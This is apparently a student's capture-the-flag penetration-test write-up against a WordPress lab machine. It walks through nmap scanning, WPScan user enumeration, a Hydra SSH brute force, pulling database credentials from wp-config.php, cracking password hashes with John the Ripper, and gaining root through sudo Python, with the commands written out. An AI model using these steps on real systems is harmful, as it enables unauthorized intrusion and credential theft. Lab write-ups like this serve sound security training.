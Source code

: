 # Offensive: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110` or `$ nmap -A 192.168.1.0/24`

Output screenshot:

![Nmap 192 168 1 110](https://user-images.githubusercontent.com/85250007/174417286-7bd90ba5-e3cc-4109-abbd-e90624366fd9.gif)

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	  Open 	SSH
2. Port 80/TCP 	  Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of Python root User Privileges/Privilege Escalation
5. Improper configured SSH
6. No file security permission implemented



### Exploitation

The Offensive Team was able to penetrate `Target 1` and retrieve the following confidential data:
![save hashes and john the ripper them](https://user-images.githubusercontent.com/85250007/174421418-5f25f299-fe7a-4d8e-aa22-e4189bef7611.gif)

**Target 1**

- `Flag1: b9bbcb33ellb80be759c4e844862482d`

    - Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
      - `$ wpscan --url http://192.168.1.110 --enumerate u`
 
 ![wpscanusers](https://user-images.githubusercontent.com/85250007/174419133-b072d0ae-c9c0-40c6-a6fa-336cf80698a3.png)
![Flag3](https://user-images.githubusercontent.com/85250007/174421144-315b9c85-f4da-4ce8-9837-9a3e52fbf809.gif)

   - Targeting User Michael
   - Executed Hydra Brute Force Attack
   - The following command was performed:
   -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
   - Password: Michael  
      
 ![Hydra brute Force](https://user-images.githubusercontent.com/85250007/174419194-4f8ce1aa-0f58-4f03-8433-d197edae8103.gif)

   - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
   - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
   - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html` 
        
![flag1](https://user-images.githubusercontent.com/85250007/174420761-94970862-acd1-4670-8d90-42a95f56fb4a.gif)


![Signin as Michael](https://user-images.githubusercontent.com/85250007/174419456-412018fe-aa33-4a1f-a433-6f23bf088b67.gif)

- `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`

   - Exploit Used:
   - Same exploit used to gain Flag 1.
   - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
   - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
   - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd /var/www`
        - `find / i-name flag*`
        - `cat flag2.txt`

![Flag2](https://user-images.githubusercontent.com/85250007/174420694-4b41f777-5fa1-41d8-9588-77dd30409745.gif)

- `Flag3: afc01ab56b50591e7dccf93122770cd2`

    - Exploit Used:
    - Previous exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
    - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
    - The wp-config.php displayed DB_Password in plaintext

![wp-configphp](https://user-images.githubusercontent.com/85250007/174420457-36498526-cf68-47e0-8563-9343d0a29da4.png)
      
   - Flag 3 was found in wp_posts table in the wordpress database.
   - Commands:
        - Connected to mysql: -u root -p R@v3nSecurity
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_posts;`

![Flag3](https://user-images.githubusercontent.com/85250007/174421155-f1f7ff1e-e7f7-469c-b48d-6a70d6e203a4.gif)

- `Flag4: 715dea6c055b9fe3337544932f2941ce`

    - Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
    - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
    - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
    - Commands:
         - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_users;`

![mysql hashes found](https://user-images.githubusercontent.com/85250007/174421618-027c6170-266b-48e3-8432-ca68e7429c39.gif)

   - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
   - Command:
        -`john wp_hashes.txt`
        
![save hashes and john the ripper them](https://user-images.githubusercontent.com/85250007/174421455-b1fed644-0b18-4c8f-9945-2b914db2048f.gif)

   - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
   - Commands: 
       - `ssh steven@192.168.1.110`
          - `pw:pink84`
          - `sudo -l`
          - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
          - `cd /root`
          - `ls`
          - `cat flag4.txt`

![Flag4](https://user-images.githubusercontent.com/85250007/174421352-a1c816d0-7442-40ac-aeed-8d4b2c66d8f9.gif)


















